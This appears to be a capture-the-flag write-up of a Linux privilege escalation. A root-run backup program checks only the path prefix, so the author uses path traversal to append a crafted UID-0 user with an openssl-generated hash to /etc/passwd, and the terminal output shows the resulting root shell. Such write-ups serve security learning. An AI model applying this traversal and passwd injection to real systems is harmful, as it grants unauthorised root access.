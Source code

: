 ```cpp
```

#### Explanation

First of all,
We can run The script `/home/py/secret_stuff/backup` with root permissions

The snippet :

```cpp
std::cout<<"Enter a line of text to back up: ";
std::string line;
std::getline(std::cin,line);
```
Allow us to insert what even string we want

The line `if(!path.starts_with("/srv/backups/")){` checks only if the path that we inserted starts with `/srv/backups/`
What about with the rest ???

## Writing a user to /etc/passwd

#### Create a password

```sh
┌──(alienum㉿kali)-[~]
└─$ openssl passwd -1
Password:
Verifying - Password:
$1$OFv8605C$Ijg./7PjFUq2HdzInVpFS1
```

#### The whole string

```
alienum:$1$OFv8605C$Ijg./7PjFUq2HdzInVpFS1:0:0::/root:/bin/bash
```

#### Final Step

Because the script checks only the starting string we can file inclusion the ```/srv/backups/../../etc/passwd```
<br>
So, i typed :
<br>
```
alienum:$1$OFv8605C$Ijg./7PjFUq2HdzInVpFS1:0:0::/root:/bin/bash
```

```
/srv/backups/../../etc/passwd
```


```sh
[py@archlinux secret_stuff]$ ./backup
Enter a line of text to back up: alienum:$1$OFv8605C$Ijg./7PjFUq2HdzInVpFS1:0:0::/root:/bin/bash
Enter a file to append the text to (must be inside the /srv/backups directory): /srv/backups/../../etc/passwd
[py@archlinux secret_stuff]$ su alienum
Password:
[root@archlinux secret_stuff]# id
uid=0(root) gid=0(root) groups=0(root)
[root@archlinux secret_stuff]#
```
